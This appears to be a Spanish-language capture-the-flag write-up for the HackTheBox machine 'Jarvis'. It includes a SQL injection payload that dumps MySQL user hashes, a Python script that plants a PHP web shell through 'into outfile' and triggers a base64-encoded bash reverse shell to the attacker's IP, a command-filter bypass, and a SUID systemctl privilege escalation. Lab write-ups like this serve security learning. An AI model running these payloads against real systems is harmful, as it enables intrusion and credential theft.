 ```yaml
---
title : MQ|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>

<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>

<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>

<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>

<img src="imgs/Jarvis/Jarvis4.png">


* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>

<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>

<img src="imgs/Jarvis/Jarvis6.png">

`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Desciframos el hash MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>

<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>

<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>

<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>

<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>

<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>

<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>

<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py

<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>


<video controls style="width: 100%; max-width: 700px; border-radius: 12px; margin: 0 auto; display: block;">
  <source src="imgs/Jarvis/video.mp4" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video>


* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>

<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>

<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>

<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>

<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>

<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>

<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>

<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>

<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>

<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>

<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>

<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>

<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>

<img src="imgs/Jarvis/Jarvis34.png">
